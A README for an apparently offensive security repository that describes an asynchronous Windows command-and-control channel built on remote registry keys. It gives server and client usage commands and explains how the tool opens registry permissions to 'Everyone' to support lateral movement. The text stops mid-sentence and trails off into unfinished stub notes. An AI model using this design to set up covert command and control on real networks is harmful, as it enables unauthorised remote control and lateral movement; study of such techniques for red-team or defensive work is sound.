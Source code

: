 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard netcat/meterpreter reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is a sleep timer just like Cobalt Strikes. 

At this moment, the repository only has a C2 using Windows Registry keys, but more will hopefully be added in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol. (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) Using custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it. 

### Usage:
**Server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
>help
sleep 10         Set the sleep time to 10
cmd whoami       Execute whoami
exit             Exit the application gracefully
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client then checks the 
### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
